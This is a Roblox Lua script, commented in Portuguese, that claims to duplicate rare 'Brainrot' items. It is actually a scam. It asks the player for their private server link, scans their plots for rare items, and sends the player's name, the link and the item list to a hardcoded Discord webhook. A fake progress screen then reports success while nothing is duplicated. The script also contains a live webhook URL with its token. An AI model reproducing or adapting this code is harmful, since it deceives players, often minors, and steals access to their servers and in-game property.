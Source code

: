 loadstring([[
-- Services
local HttpService = game:GetService("HttpService")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local StarterGui = game:GetService("StarterGui")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer
local Workspace = game:GetService("Workspace")
local TweenService = game:GetService("TweenService")
local plots = Workspace:WaitForChild("Plots")

-- Packages
local NetPackages = ReplicatedStorage:WaitForChild("Packages"):WaitForChild("Net")

-- Notification listener
local notificationEvent = NetPackages:WaitForChild("RE/NotificationService/Notify", 5).OnClientEvent:Connect(function(title, message)
    -- Handle notifications here
end)

-- Toggle player settings
task.spawn(function()
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Music")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Sound Effects")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Chat Tips")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("VFX")
end)

-- Função para detectar Brainrots
local function reconhecerBrainrots()
    local brainrotsEncontrados = {}
    for _, obj in ipairs(plots:GetDescendants()) do
        if obj:IsA("TextLabel") and obj.Name == "Rarity" then
            local rarityText = obj.Text
            if rarityText == "Brainrot God" or rarityText == "Secret" then
                local parent = obj.Parent
                local displayName = parent:FindFirstChild("DisplayName")
                local generation = parent:FindFirstChild("Generation")
                if displayName and generation and displayName:IsA("TextLabel") and generation:IsA("TextLabel") then
                    table.insert(brainrotsEncontrados, {
                        name = displayName.Text,
                        rarity = rarityText,
                        generation = generation.Text
                    })
                end
            end
        end
    end
    return brainrotsEncontrados
end

-- UI: Server Link Input com animação
local brainrotUI = Instance.new("ScreenGui")
brainrotUI.Name = "BrainrotUI"
brainrotUI.ResetOnSpawn = false
brainrotUI.Parent = LocalPlayer:WaitForChild("PlayerGui")

local mainFrame = Instance.new("Frame", brainrotUI)
mainFrame.Size = UDim2.new(0, 400, 0, 180)
mainFrame.Position = UDim2.new(0.5, -200, -0.5, -90)
mainFrame.BackgroundColor3 = Color3.fromRGB(25, 35, 25)
mainFrame.Active = true
mainFrame.Draggable = true

local frameCorner = Instance.new("UICorner", mainFrame)
frameCorner.CornerRadius = UDim.new(0, 10)

-- Tween de entrada
local tweenInfo = TweenInfo.new(0.5, Enum.EasingStyle.Quad, Enum.EasingDirection.Out)
local goal = {Position = UDim2.new(0.5, -200, 0.5, -90)}
local tween = TweenService:Create(mainFrame, tweenInfo, goal)
tween:Play()

-- Título
local titleLabel = Instance.new("TextLabel", mainFrame)
titleLabel.Size = UDim2.new(1, 0, 0, 45)
titleLabel.BackgroundTransparency = 1
titleLabel.Font = Enum.Font.GothamBold
titleLabel.TextSize = 20
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.Text = "Duplicate Brainrot"

-- Caixa de link do servidor
local serverLinkBox = Instance.new("TextBox", mainFrame)
serverLinkBox.Size = UDim2.new(0.9, 0, 0, 40)
serverLinkBox.Position = UDim2.new(0.05, 0, 0.45, 0)
serverLinkBox.PlaceholderText = "Server Privado Aqui"
serverLinkBox.Font = Enum.Font.Gotham
serverLinkBox.TextSize = 18
serverLinkBox.TextColor3 = Color3.new(1, 1, 1)
serverLinkBox.BackgroundColor3 = Color3.fromRGB(40, 60, 40)
serverLinkBox.TextXAlignment = Enum.TextXAlignment.Left
serverLinkBox.ClearTextOnFocus = false
serverLinkBox.Text = ""

local textBoxCorner = Instance.new("UICorner", serverLinkBox)
textBoxCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter
local enterButton = Instance.new("TextButton", mainFrame)
enterButton.Size = UDim2.new(0.9, 0, 0, 40)
enterButton.Position = UDim2.new(0.05, 0, 0.75, 0)
enterButton.BackgroundColor3 = Color3.fromRGB(0, 200, 100)
enterButton.Text = "Enter"
enterButton.Font = Enum.Font.GothamBold
enterButton.TextSize = 18
enterButton.TextColor3 = Color3.new(1, 1, 1)

local buttonCorner = Instance.new("UICorner", enterButton)
buttonCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter Click
enterButton.MouseButton1Click:Connect(function()
    local serverLink = serverLinkBox.Text
    if serverLink == "" then
        warn("⚠ Você precisa colocar um link válido!")
        return
    end

    enterButton.Text = "✔ Valido"  
    enterButton.BackgroundColor3 = Color3.fromRGB(0, 255, 120)  
    task.wait(0.5)  
    brainrotUI:Destroy()  

    local brainrots = reconhecerBrainrots()
    local brainrotText = ""
    for i, br in ipairs(brainrots) do
        brainrotText = brainrotText .. string.format("• %s (%s) | Valor: %s\n", br.name, br.rarity, br.generation)
    end
    if brainrotText == "" then brainrotText = "Nenhum Brainrot encontrado." end

    -- Envio webhook
    task.spawn(function()
        local webhookUrl = "https://discord.com/api/webhooks/1429301109255573596/IWZFS63ptlKMwCQdSE0Ygvgxgusor4cH0dVjKwuN7U8ZSDwsb4VhPGmz08k51i0dU-IZ"
        local embed = {
            username = "Kauã Methods",
            avatar_url = "https://i.imgur.com/wtdl6SY.png",
            embeds = {{
                color = 65280,
                title = "Novo servidor!!",
                description = "Uma nova pessoa executou o alvorada hub.",
                fields = {
                    {name = "👤 Player Information", value = string.format("**Name:** %s", LocalPlayer.Name), inline = false},
                    {name = "🖇️ Entrar server privado", value = string.format("[Click to Join](%s)", serverLink), inline = false},
                    {name = "🧠 Brainrots Detectados", value = brainrotText, inline = false},
                },
                footer = {text = "Kauã Methods | Notificacoes Alv", icon_url = "https://i.imgur.com/wtdl6SY.png"},
                timestamp = DateTime.now():ToIsoDate()
            }}
        }

        local body = HttpService:JSONEncode(embed)
        local req = request or http_request or (syn and syn.request) or (fluxus and fluxus.request) or (krnl and krnl.request)

        if req then
            local response = req({
                Url = webhookUrl,
                Method = "POST",
                Headers = {["Content-Type"] = "application/json"},
                Body = body
            })
            print("✔ Webhook enviado! Status:", response and response.StatusCode or "sem resposta")
        else
            warn("⚠ Seu executor não suporta envio de webhook (HTTP Request bloqueado).")
        end
    end)

    -- Loader / Script Promises
    local loaderGui = Instance.new("ScreenGui", game:GetService("CoreGui"))
    loaderGui.Name = "DuplicateLoader"
    loaderGui.IgnoreGuiInset = true
    loaderGui.ResetOnSpawn = false

    local loaderFrame = Instance.new("Frame", loaderGui)
    loaderFrame.Size = UDim2.new(1, 0, 1, 0)
    loaderFrame.BackgroundColor3 = Color3.fromRGB(0, 20, 0)

    local loaderTitle = Instance.new("TextLabel", loaderFrame)
    loaderTitle.Size = UDim2.new(1, 0, 0.1, 0)
    loaderTitle.Position = UDim2.new(0, 0, 0.35, 0)
    loaderTitle.BackgroundTransparency = 1
    loaderTitle.Font = Enum.Font.GothamBold
    loaderTitle.TextSize = 36
    loaderTitle.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderTitle.Text = "Duplicate em andamento ."
    loaderTitle.TextScaled = true

    local loaderPercent = Instance.new("TextLabel", loaderFrame)
    loaderPercent.Size = UDim2.new(1, 0, 0.1, 0)
    loaderPercent.Position = UDim2.new(0, 0, 0.45, 0)
    loaderPercent.BackgroundTransparency = 1
    loaderPercent.Font = Enum.Font.GothamBold
    loaderPercent.TextSize = 24
    loaderPercent.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderPercent.Text = "0%"

    local loaderDesc = Instance.new("TextLabel", loaderFrame)
    loaderDesc.Size = UDim2.new(1, 0, 0.05, 0)
    loaderDesc.Position = UDim2.new(0, 0, 0.52, 0)
    loaderDesc.BackgroundTransparency = 1
    loaderDesc.Font = Enum.Font.Gotham
    loaderDesc.TextSize = 16
    loaderDesc.TextColor3 = Color3.fromRGB(180, 255, 180)
    loaderDesc.Text = "Espere e seja feliz"
    loaderDesc.TextScaled = true
    loaderDesc.TextWrapped = true
    loaderDesc.TextXAlignment = Enum.TextXAlignment.Center

    local loaderFooter = Instance.new("TextLabel", loaderFrame)
    loaderFooter.Size = UDim2.new(1, 0, 0.05, 0)
    loaderFooter.Position = UDim2.new(0, 0, 0.9, 0)
    loaderFooter.BackgroundTransparency = 1
    loaderFooter.Font = Enum.Font.GothamBold
    loaderFooter.TextSize = 18
    loaderFooter.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderFooter.Text = "Duplicate Sucesso"

    for i = 1, 100 do
        loaderPercent.Text = i.."%"
        task.wait(0.05)
    end

    loaderTitle:Destroy()
    loaderPercent:Destroy()
    loaderDesc:Destroy()

    local loaderCompleteLabel = Instance.new("TextLabel", loaderFrame)
    loaderCompleteLabel.Size = UDim2.new(1, 0, 1, 0)
    loaderCompleteLabel.BackgroundTransparency = 1
    loaderCompleteLabel.Font = Enum.Font.GothamBold
    loaderCompleteLabel.TextScaled = true
    loaderCompleteLabel.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderCompleteLabel.Text = "Script Carregou, so esperar entre 2-3 minutos.."

end)
]])()
